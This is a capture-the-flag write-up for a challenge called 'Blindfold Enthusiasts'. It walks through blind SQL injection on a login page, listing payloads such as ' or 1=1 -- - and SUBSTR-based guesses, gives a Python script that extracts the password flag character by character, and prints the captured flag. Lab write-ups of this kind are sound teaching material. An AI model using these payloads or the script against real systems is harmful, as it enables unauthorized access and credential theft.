

# Blindfold Enthusiasts

## Challenge Description

Look a blindfold enthusiast club login page. Wonder what I can get out of here


## First look at the webpage

We are presented with a simple login page.  


The name of the challenge already hints that it'll be a blind SQL injection attack.

Let's try some SQL injecion:
- username: `' or 1=1 -- -`
- password: `anything`


Turns out, both username and password had to be correct to do it. (maybe the query was written in multiple lines?)
- username: `' or 1=1 -- -`
- password: `' or 1=1 -- -`


Seems like we will only be getting a success message for injecting successfully.


## Trying to leak the password

My guess was that the correct password would be the flag, and we are supposed to find the user's password.

My guess of a possible query that's being used in this case:  
```SQL
SELECT *
FROM user
WHERE username = '$username'
AND password = '$password'
```

Using these payloads:
- username: `' or 1=1 -- -`
- password: `' or password LIKE 'NYP' -- -'
```


Since the payload worked, it confirms that the flag is the password.


## Solution

To leak the flag, I can check the left few characters of the flag for each character till I get the whole flag.

Basically:
- username: `' or 1=1 -- -`
- password: `' or SUBSTR(password, 1, <length of guess>) = '<guessed characters>' -- -`

[Script](script.py) to automate the guessing proccess:  
```python
import requests
from string import printable

URL = "https://blind.nypinfosec.tk"
YES = "You Did It"

password = "NYP{"
while password[-1] != "}":
    print(f"Password cracking in progress: {password}")
    for char in printable:
        guess = password+char
        resp = requests.post(URL, data={
            "username": "' or 1 -- -",
            "password": f"' or SUBSTR(password, 1, {len(guess)}) = '{guess}' -- -"
        })
        if YES in resp.text:
            password += char
            break

print(f"\nSuccess!\nPassword get: {password}")
```

Output:  


Flag Captured: `NYP{Bl1ndF01d5-4rE-4m4Z1ng}`
